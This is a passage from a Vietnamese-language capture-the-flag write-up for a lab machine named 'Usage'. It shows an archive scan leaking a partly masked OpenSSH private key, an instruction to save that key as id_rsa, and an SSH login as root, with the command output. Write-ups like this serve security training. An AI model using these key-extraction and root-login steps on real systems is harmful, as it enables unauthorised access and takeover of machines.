 ```python
Archive size: 54871955 bytes (53 MiB)

Scan WARNINGS for files and folders:

-----BEGIN OPENSSH PRIVATE KEY----- : No more files
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW : No more files
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi : No more files
QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07********************* : No more files
AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1W*************************** : No more files
H2sfTWZeFDLGmqMhrqDdAAAA************************= : No more files
-----END OPENSSH PRIVATE KEY----- : No more files
----------------
Scan WARNINGS: 7
```

Copy nội dung của key này về, xóa hết phần thừa và lưu thành id_rsa

```python
┌──(kali㉿kali)-[~/p0wny-shell]
└─$ chmod 600 id_rsa
┌──(kali㉿kali)-[~/p0wny-shell]
└─$ ssh -i id_rsa  root@10.10.11.18 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Tue May  7 09:33:54 AM UTC 2024

  System load:           0.0390625
  Usage of /:            65.6% of 6.53GB
  Memory usage:          21%
  Swap usage:            0%
  Processes:             230
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.18
  IPv6 address for eth0: dead:beef::250:56ff:feb9:6f7b


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue May  7 09:02:51 2024 from 10.10.14.58
root@usage:~# id
uid=0(root) gid=0(root) groups=0(root)
root@usage:~# ls -la
total 44
drwx------  7 root root 4096 May  7 08:53 .
drwxr-xr-x 19 root root 4096 Apr  2 21:15 ..
lrwxrwxrwx  1 root root    9 Apr  2 20:22 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwxr-xr-x  3 root root 4096 Aug 24  2023 .cache
```